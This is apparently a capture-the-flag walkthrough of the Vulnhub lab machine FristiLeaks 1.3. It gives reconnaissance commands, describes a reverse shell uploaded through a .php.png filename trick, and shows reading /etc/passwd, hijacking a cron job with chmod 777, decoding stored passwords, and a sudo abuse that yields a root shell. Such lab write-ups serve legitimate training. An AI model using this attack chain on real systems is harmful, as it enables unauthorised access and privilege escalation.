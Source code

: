 # Information

- Name:  FristiLeaks: 1.3
- Date release: 14 Dec 2015
- Author: Ar0xA
- Series: FristiLeaks
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/fristileaks-13,133/
- Difficulty: Easy

# Write Up
## Enumeration
### Host Discovery
Host Discovery is perfomed using [arpScan](https://github.com/aalmeidar/Tools/) in fast mode. The ip of the vulnerable machine is _192.168.1.33_.  
```Console
# python arpScan.py -m 2
[*] b4:5f:84:f0:6c:ac 192.168.1.1
[*] 00:d8:61:59:bf:29 192.168.1.128
[*] 08:00:27:a5:a6:76 192.168.1.133
[*] c2:6c:f3:3d:5c:69 192.168.1.129
[*] 3e:d3:35:c8:1e:0a 192.168.1.131
```
### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools). The tool has found the port 80 open, so there is a web.
```Console
# python portScanner.py -i 192.168.1.133
[*] Port 80 (http) open
```

### Web
You can take a quick look at the technologies used on the web with _What Web_. In the output it is observed: Apache 2.2.15, CentOS, PHP 5.3.3

```Console
# whatweb http://192.168.1.133
http://192.168.1.133 [200 OK] Apache[2.2.15], Country[RESERVED][ZZ], HTTPServer[CentOS][Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3], IP[192.168.1.133], PHP[5.3.3], WebDAV[2]
```

If you look through a browser you don't see anything interesting in the index
![Index](images/index.png)

To search for directories and files, _gobuster_ has been used with the directory-list-2.3-medium.txt directory
```Console
gobuster dir -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 40 -u http://192.168.1.133
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.133
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/08/30 12:06:26 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 703]
/images               (Status: 301) [Size: 236] [--> http://192.168.1.133/images/]
/robots.txt           (Status: 200) [Size: 62]
/beer                 (Status: 301) [Size: 234] [--> http://192.168.1.133/beer/]
/cola                 (Status: 301) [Size: 234] [--> http://192.168.1.133/cola/]

===============================================================
2022/08/30 12:11:00 Finished
===============================================================
```

None of them are relevant. After a few attempts, /fristi is a directory with login.
![Login](images/login.png)

In the source code of the page there are several base64 strings.
![Source](images/webcode.png)

If if converted to an image you get: keKkeKKeKKeKeKeKkEkkEkkEk. If you check the comments, you will find a user eezeepz. The login is successful and allows us to upload a image.
![upload](images/upload.png)

## Exploitation

You can upload a reverse shell in php by naming the file as \*.php.png. We access the system as _apache_. In /etc/passwd there are some users such as fristi, fristigod, admin.

```Console
sh-4.1$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:Saslauthd user:/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
vboxadd:x:498:1::/var/run/vboxadd:/bin/false
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
fristi:x:503:100::/var/www:/sbin/nologin
```
## Privilege Escalation

In the directory /home/eezeepz there is a note.

```Console
sh-4.1$ cat notes.txt
cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.
```
It is possible to change the permissions of /home/admin to gain access with "runthis" (chmod 777 /home/admin). Inside the directory there is a password encrypted with a script which performs string -> base64 -> reverse -> rot13.
The password obtained is thisisalsopw123 . In addition, there is a file _whoisyourgodnow.txt_ which is encrypted in the same way; inside it says LetThereBeFristi!

We get a tty and login as admin:thisisalsopw123 and fristigod:LetThereBeFristi!:

In /var/fristigod there is a secret directory ".secret_admin_stuff" with a file "doCom". If you execute the script, the output is "wrong user :)"

but if you check /var/fristigod/.bash_history or run _sudo -l_ you will see that it can be run:
```Console
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
Usage: ./program_name terminal_command ...
```
With this we can obtain a shell as root with:

```Console
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
bash-4.1# whoami
root
```








